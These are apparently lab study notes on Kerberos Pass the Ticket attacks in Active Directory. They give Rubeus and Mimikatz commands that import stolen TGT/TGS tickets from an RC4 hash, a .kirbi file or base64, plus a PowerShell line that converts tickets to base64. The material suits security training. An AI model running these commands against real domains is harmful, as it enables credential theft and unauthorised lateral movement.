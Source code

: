 ## Pass the Ticket (PtT) 
- https://lisandre.com/archives/14885
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket
Another method for moving laterally in an Active Directory environment is called a Pass the Ticket (PtT) attack. In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash. We'll cover several ways to perform a PtT attack from Windows

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

With Rubeus we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag /ptt to submit the ticket (TGT or TGS) to the current logon session.

### Rubeus Pass the Ticket
```
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /rc4:c4b0e1b10c7ce2c4723b4e2407ef81a2 /ptt
```

Note that now it displays Ticket successfully imported!.

Another way is to import the ticket into the current session using the .kirbi file from the disk.

Let's use a ticket exported from Mimikatz and import it using Pass the Ticket.

### Rubeus - Pass the Ticket using kirbi 
```powershell
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

#### Convert .kirbi to Base64 Format
```powershell
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

##### Pass the Ticket - Base64 Format
```powershell
> Rubeus.exe ptt /ticket: <Ticket>
```

Finally, we can also perform the Pass the Ticket attack using the Mimikatz module kerberos::ptt and the .kirbi file that contains the ticket we want to import.

### Mimikatz - Pass the Ticket using kirbi
```powershell
> mimikatz.exe 
> privilege::debug
> kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
> exit
```
